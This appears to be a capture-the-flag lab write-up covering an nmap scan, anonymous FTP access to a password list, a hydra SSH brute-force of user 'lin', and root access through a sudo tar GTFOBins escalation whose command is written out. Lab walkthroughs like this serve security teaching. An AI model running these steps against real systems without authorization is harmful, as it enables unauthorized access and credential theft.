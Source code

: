 
we begin by running an nmap scan we have the following result.

![[1.png]]
 we have the following ports open our target system:
 - 21 (ftp)
 - 22 (ssh)
 - 80 (http)
 now lets start our enumeration.


##Enumerating Port 21 (FTP)
from the scan port 21 runs ftp service which has  anonymous login enabled. anonymous login is a method that allows users to access an FTP server without providing any authentication credentials, thus enabling anonymous access. This feature is often used for public file repositories or servers hosting freely available resources. When accessing an FTP server anonymously, users typically input "anonymous" as the username and may use their email address or a generic password like "guest" or "anonymous" as the password. While this grants users the ability to download files from the server, their access privileges are usually limited, often restricting them to read-only permissions. Anonymous FTP login serves as a convenient means for users to retrieve publicly shared data without the need for individual accounts, promoting accessibility to information across the internet. 

now we can exploit this simply by using the following command:

```
ftp <TARGET_IP>
USERNAME: anonymous
PASSWORD: leave_blank
```
![[2.png]]
we have just discovered two file via ftp now we download them to our local machine using the following command:

```
mget *
```

![[3.png]]

when we cat out the content of the ***locks.txt*** file we can see a list of possible passwords
![[4.png]]

the ***task.txt*** file simply gives us a message:
![[5.png]]

since we have have a password  list my next assumption was the use this information from we have to perform a bruteforce attack on the ssh service .

##Enumerating SSH
to bruteforce ssh, we would be making use of hydra.

```
command used: hydra -l lin -P /path/to/file/locks.txt 10.10.252.46 ssh
```

now we have a password
![[6.png]]
so we can try to login as ***lin*** using ssh

```
command used: ssh lin@<TARGET_IP>
```

and now to locate the user flag, simply list out the contents of Desktop Directory.

```
command used: ls -la
```

##Privilege escalation 
Let's execute `sudo -l` to observe the privileges granted to the user for running commands as another user or as root.

we are allowed to run the following command:
![[8.png]]

we are allowed to run tar as root. now we head over Here [[https://gtfobins.github.io/gtfobins/tar/]] to get a prive-esc command 

from gtfo bin we can simply copy and execute the following command to gain root:

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
![[9.png]]
and we are root.


